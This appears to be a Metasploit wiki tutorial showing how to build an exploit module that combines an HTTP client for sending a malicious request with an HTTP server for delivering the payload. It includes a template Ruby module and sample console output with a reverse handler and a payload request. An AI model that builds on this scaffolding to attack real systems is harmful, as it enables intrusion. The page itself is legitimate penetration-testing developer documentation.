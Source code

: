 Using multiple networking mixins in a Metasploit module is always a tricky thing to do, because most likely you will run into issues like overlapping datastore options, variables, methods, the super call is only meant for one mixin, etc. This is considered as advanced module development, and sometimes can be rather painful to figure out on your own. To improve the Metasploit development experience, we have a few examples to demonstrate common scenarios that require you to use multiple mixins to achieve exploitation. 

### Today's lesson: Send a HTTP request to attack the target machine, and use a HttpServer for payload delivery.

Say you want to exploit a web server or web application. You have code execution on the box, but you need to find a way to deliver the final payload (probably an executable), and a HTTP server happens to be your option.

Here is how you can set it up:

```ruby

##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::Remote::HttpServer::HTML

  def initialize(info={})
    super(update_info(info,
      'Name'           => "HttpClient and HttpServer Example",
      'Description'    => %q{
        This demonstrates how to use two mixins (HttpClient and HttpServer) at the same time,
        but this allows the HttpServer to terminate after a delay.
      },
      'License'        => MSF_LICENSE,
      'Author'         => [ 'sinn3r' ],
      'References'     =>
        [
          ['URL', 'http://metasploit.com']
        ],
      'Payload'        => { 'BadChars' => "\x00" },
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'Automatic', {} ],
        ],
      'Privileged'     => false,
      'DisclosureDate' => "Dec 09 2013",
      'DefaultTarget'  => 0))

      register_options(
        [
          OptString.new('TARGETURI', [true, 'The path to some web application', '/']),
          OptInt.new('HTTPDELAY',    [false, 'Number of seconds the web server will wait before termination', 10])
        ], self.class)
  end

  def on_request_uri(cli, req)
    print_status("#{peer} - Payload request received: #{req.uri}")
    send_response(cli, 'You get this, I own you')
  end

  def primer
    print_status("Sending a malicious request to #{target_uri.path}")
    send_request_cgi({'uri'=>normalize_uri(target_uri.path)})
  end

  def exploit
    begin
      Timeout.timeout(datastore['HTTPDELAY']) { super }
    rescue Timeout::Error
      # When the server stops due to our timeout, this is raised
    end
  end
end
```

Here's what happens when you run the above example:

1. The super call wrapped in the Timeout block will start the web server.
2. Before the web server is in the infinite loop state, the primer() method is called, which is where you send your malicious requests to get code execution.
3. Your HttpServer serves the final payload upon request.
4. After 10 seconds, the module raises a Timeout exception. The web server finally terminates.

In case you're wondering why the web server must terminate after a period of time, this is because if the module fails to gain code execution on the target machine, obviously it will never ask your web server for the malicious payload, therefore there is no point to keeping it alive forever. Typically it shouldn't take a very long time to get a payload request, either, so we keep the timeout short.

The output for the above example should look something like this:

```
msf exploit(test) > run
[*] Exploit running as background job.

[*] Started reverse handler on 10.0.1.76:4444 
[*] Using URL: http://0.0.0.0:8080/SUuv1qjZbCibL80
[*]  Local IP: http://10.0.1.76:8080/SUuv1qjZbCibL80
[*] Server started.
[*] Sending a malicious request to /
msf exploit(test) >
[*] 10.0.1.76        test - 10.0.1.76:8181 - Payload request received: /SUuv1qjZbCibL80
[*] Server stopped.

msf exploit(test) >
```

### Related Articles:

* https://github.com/rapid7/metasploit-framework/wiki/How-to-Send-an-HTTP-Request-Using-HTTPClient
* https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-browser-exploit-using-HttpServer
* https://community.rapid7.com/community/metasploit/blog/2012/12/17/metasploit-hooks